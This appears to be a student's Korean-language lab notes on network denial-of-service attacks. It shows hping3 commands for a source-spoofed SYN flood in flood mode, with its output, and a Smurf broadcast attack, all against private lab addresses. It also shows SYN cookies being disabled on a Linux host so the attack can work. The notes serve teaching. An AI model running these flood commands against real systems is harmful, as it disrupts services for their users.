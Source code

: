 
root@kali-04:~/Desktop# hping3 -a 172.16.10.20 -s 80 -k -p 80 -S 172.16.10.20

-k : 출발지 포트 번호 +1 안하고 유지되게 하는 옵션



root@kali-04:~/Desktop# hping3 -a 172.16.10.20 -s 80 -k -p 80 -S 172.16.10.20 --flood

--flood : 최대 속도

```
HPING 172.16.10.20 (eth0 172.16.10.20): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 172.16.10.20 hping statistic ---
57197 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```



#### Smurf Attack (98p)

- 경유지 (취약한 네트워크)는 네트워크 대역대가 목적지와 달라야한다.

라우터는 목적지가 브로드케스트인걸 차단하는 기본 기능이 있다.

그래서 공격자가 라우터로 전달 할 때 (99p) 부터 막히게 된다. 

-> 이 공격은 먹힐 수 가 없다.

root@kali-04:~/Desktop# hping3 -1 -a 172.16.10.20 172.16.10.255

-> 목적지인 172.16.10.255 는 가장 큰 Direct Broadcast 주소임



###### GNS

show ip inter f0/0 을 확인 해 보면 [f0/0은 스위치쪽]

Directed broadcast forwading is disabled 인걸 확인 할 수 있다. 



#### TCP SYN Flooding(103p)

Backlog Queue (104p)

###### Cent

[root@Linux-11 바탕화면]# vim /etc/sysctl.conf

```
net.ipv4.tcp_syncookies = 0
```

[root@Linux-11 바탕화면]# sysctl -p

```
net.ipv4.ip_forward = 0
net.ipv4.conf.all.accept_redirects = 0
net.ipv4.conf.default.accept_redirects = 0
net.ipv4.conf.eth0.accept_redirects = 0
net.ipv4.conf.default.rp_filter = 1
net.ipv4.conf.default.accept_source_route = 0
kernel.sysrq = 0
kernel.core_uses_pid = 1
net.ipv4.tcp_syncookies = 0 // 0으로 바뀐거 확인
kernel.msgmnb = 65536
kernel.msgmax = 65536
kernel.shmmax = 68719476736
kernel.shmall = 4294967296
```
